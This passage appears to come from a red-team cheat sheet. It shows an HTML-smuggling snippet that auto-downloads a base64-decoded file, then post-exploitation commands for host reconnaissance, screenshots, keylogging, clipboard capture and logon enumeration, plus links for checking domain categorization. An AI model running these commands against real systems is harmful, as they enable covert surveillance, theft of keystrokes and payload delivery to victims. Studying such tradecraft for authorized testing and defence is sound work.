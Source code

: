 ```html
        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```

#### Host Reconnaissance

```bash
# List processes
ps

# Collect Data
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=system

# Screenshots
printscreen               ##Take a single screenshot via PrintScr method
screenshot                ##Take a single screenshot
screenwatch               ##Take periodic screenshots of desktop

# Keylogger
keylogger               ## RUn keylogger
jobs                    ## List jobs
jobkill <id>               ## Kill job (keylogger)

# Clipboard
clipboard               ## Get Clipboard

# list the logon sessions on this machine
net logons
```

##### Web Categorization

- https://sitereview.bluecoat.com/
- https://github.com/mdsecactivebreach/Chameleon
